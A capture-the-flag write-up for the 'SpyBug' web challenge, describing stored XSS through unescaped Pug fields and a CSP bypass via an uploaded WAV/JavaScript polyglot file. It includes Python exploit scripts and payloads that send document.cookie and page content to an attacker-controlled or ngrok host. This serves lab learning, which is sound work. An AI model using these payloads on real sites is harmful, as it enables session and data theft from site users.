





# SpyBug (Medium)

Although this challenge is ranked medium, it had a very high level of complexity and understanding of all the problems it contains.

For this challenge it is better to have some familiarity with docker containers and how to work with them

So to start of this challenge we can see that the app is written in Node js but weirdly enough there is a folder called agent containing a golang file and some go initialization stuff.

going to the app itself we can see a login page and nothing else, so it is code review time.

## Analyzing code

since we are working to bypass the login page, we must see what can we do without authentication, so we look through the routes to see what available API calls we can make.

looking at the `generic.js` and `panel.js` routes we can see that all the routes in these require the `authuser` middleware, so we can rule those out for now.

taking a look at `agents.js` we can see that those routes are accessible withought user authentication and some just require some authentication that we can achieve.

```js
router.get("/agents/register", async (req, res) => {
  res.status(200).json(await registerAgent());
});
```

this is a route that allows us to get the `id` and `token` of a newly regestered agent. Both of them can be used to access the other API routes

The '/agents/check' route isn't really important but can be used to check if the agent is still available since the server drops some of these agents over time

and then we have the '/agents/details' route that can update some fields of the agent. Looking back at the golang file it seems they are os related stuff that we really don't care much about since we can set them to whatever we want via a post request.

And at last we have the '/agents/upload' route which we will come back later to 

Now that we have some understanding of the individual components, it's time to see how all them come together by dynamically analyzing the app.

## Dynamic Analysis

Now it's time to use the provided Docker configuration to setup our own instance. Thankfully the dev provided a builder script top automate everything. So we can just run it to spawn a container.

inside this script we see that there is an environment variable being set with teh admin's password

```bash
ADMIN_SECRET=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)
```

So we can get a shell via ```docker exec``` and read that password, and then navigate into our own instance's site to login as admin.



Buy looking at it we can immediately realize that everything about agents is displayed, and since we control those details, how about we try to elevate an XSS to login as the admin.

So back to the code to see if the client side code is vulnerable, we can examin the `panel.pug` view which renders the admin panel.

```pug 
td !{agent.hostname}
td !{agent.platform}
td !{agent.arch}
```

immediately we can see that the ```!{}``` are used which are used to render html as is without sanitization, so we have xss.

but if we try to update an agent's details to contain an xss payload, we are greeted with console errors complaining about the CORS headers that are being used. 

```js
res.setHeader("Content-Security-Policy", "script-src 'self'; frame-ancestors 'none'; object-src 'none'; base-uri 'none';");
```
We can see these CORS headers being set in the main `index.js` file, and one of those headers is `script-src 'self'` which disables inline script execution, meaning that any script tag being loaded into the page won't be executed by the browser. So the only way to get XSS is via sourcing the JS code from a file on the same server. 

So we need to find a way to upload files to the server containing the javascript code we want to execute.
Luckely for us there is the '/agents/upload' API that we can take a look into

just to confirm that that's the case we can use the container shell to create a file with javascript inside it and link it







Sure enough, that's our goal


## File Upload

looking at the function we see some weird regex and file reading stuff which is obscure at first glance

```js
router.post(
  "/agents/upload/:identifier/:token",
  authAgent,
  multerUpload.single("recording"),
  async (req, res) => {
    if (!req.file) return res.sendStatus(400);

    const filepath = path.join("./uploads/", req.file.filename);
    const buffer = fs.readFileSync(filepath).toString("hex");

    if (!buffer.match(/52494646[a-z0-9]{8}57415645/g)) {  
      fs.unlinkSync(filepath);
      return res.sendStatus(400);
    }

    await createRecording(req.params.identifier, req.file.filename);
    res.send(req.file.filename);
  }
);
```

So to understand it better we must refer to the golang file. After a lot of banging heads into walls (cuz who have the time to understand golang :confounded: ), it appears to create a wav file and send it to the server. But we don't want audio data, we want to send javascript code, so we did what any person would do these days and ask openAI's chatGPT to convert this code into python code. 

At this point can understand it better, and understand it better and edit it to our liking.

the above route calls this function

```js 
const multerUpload = multer({
  storage: storage,
  fileFilter: (req, file, cb) => {
    if (
      file.mimetype === "audio/wave" &&  
      path.extname(file.originalname) === ".wav"
    ) {
      cb(null, true);
    } else {
      return cb(null, false);
    }
  },
});
``` 
which forces us to upload the file as a wav file which isn't a problem as we only care about the content.

but the content of the file will contain binary data that will cause errors when calling the file. That's when we should use a multi-line comment to comment out the binary data, and luckely for us, the regex in the function above doesn't explicitly look at where this sequence of bytes is located.

As it turns out this sequence ```/52494646[a-z0-9]{8}57415645/g``` is just the RIFF WAV file header, so the server is conferming that that header is present, but doesn't check where.

So our final file to upload must look something like that:

```
/*  binary
    data
    here
/*(our JS payload)
```
Here's a python script that automates this whole process

```python
import requests
import sounddevice as sd
import soundfile as sf
import time
import sys

api_url = "http:/127.0.0.1:1337"
identifier = sys.argv[1]
token = sys.argv[2]

def recording_routine(api_url, identifier, token):
    upload_url = f"{api_url}/agents/upload/{identifier}/{token}"
    frames_per_buffer = 64
    channels = 1
    duration = 5  
    file_path = "rec3.wav"

    with sf.SoundFile(file_path, mode="x", samplerate=44100, channels=channels) as file:
        start_time = time.monotonic()
        while True:
            now = time.monotonic()
            if now - start_time > duration:
                break

            data =  sd.rec(frames_per_buffer, samplerate=file.samplerate, channels=channels, blocking=True)
            file.write(data)
    with open(file_path, "rb") as file:
        existing_data = file.read()
    with  open(file_path, "wb") as file:
        file.write(b'/*')
        file.write(existing_data)
    with open(file_path, "rb+") as file:
        file.seek(0, 2)  
        file.write(b"*/fetch('https://domain_you_control.com/?'+ document.cookie")   #payload here
 
    with open(file_path, "rb") as file:
        files = {"recording": (file_path, file, "audio/wave")}
        response = requests.post(upload_url, files=files)

    return response

x = recording_routine(api_url, identifier, token)
print(x.text)

```

it is not perfect but it did the trick (also note that it creates a wav file that should be deleted to run the script again)

after execution, the server will return the name of the file in the '/uploads' directory which we can use to source the script tags

```python
import requests
import json
import sys
url = f'http://127.0.0.1:1337/agents/details/{sys.argv[1]}/{sys.argv[2]}'

headers = {
    'Content-Type': 'application/json'
}

data = {
        "hostname": "",
        "platform": "",
    "arch": "<script src=uploads/file_name></script>"
}

response = requests.post(url, headers=headers, data=json.dumps(data), verify=False)

print(response.text)
```

This script is used to automate the detail update of the agent

Then we have to wait for a minit for the admin bot to visit the panel as shown in the main index file

```js
setInterval(visitPanel, 60000);
```

For the server any simple http will work, we used python http.server module and [ngrok](https://ngrok.com/) to get a temporary domain.

but then we realized that there is no admin cookie on the page, but thankfully the flag is displayed in the page itself so we can just edit the file upload script anb grab the body of the html tag containing the flag and send it over as so

```js
fetch('https://fd82-91-232-100-54.eu.ngrok.io/?'+ document.getElementsByTagName('h2')[0].innerHTML)
```

And finally we get the flag

